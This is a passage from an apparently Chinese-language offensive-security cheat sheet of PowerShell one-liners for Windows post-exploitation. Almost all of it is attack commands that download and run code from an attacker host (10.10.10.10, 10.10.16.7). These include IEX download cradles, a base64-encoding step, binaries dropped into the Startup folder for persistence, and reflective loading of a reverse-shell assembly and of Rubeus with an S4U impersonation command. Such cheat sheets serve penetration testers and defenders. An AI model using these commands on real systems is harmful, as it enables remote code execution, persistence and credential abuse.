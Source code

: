 * Linux: :warning: 需要UTF-16LE编码

  ```ps1
  echo 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")' | iconv -t utf-16le | base64 -w 0
  ```

## 下载文件

```ps1
# 任何版本
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerView.ps1", "C:\Windows\Temp\PowerView.ps1")
wget "http://10.10.10.10/taskkill.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
Import-Module BitsTransfer; Start-BitsTransfer -Source $url -Destination $output

# PowerShell 4+
IWR "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
```

## 加载PowerShell脚本

```ps1
# 支持代理
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1')
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1') | powershell -noprofile -
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.10.10/PowerView.ps1')|iex"

# 不支持代理
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.10.10/PowerView.ps1',$false);$h.send();iex $h.responseText
```

## 反射式加载C#程序集

```powershell
# 下载并运行无参数的程序集
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# 下载并运行Rubeus，带参数（确保拆分参数）
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# 从程序集（例如DLL）执行特定方法
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
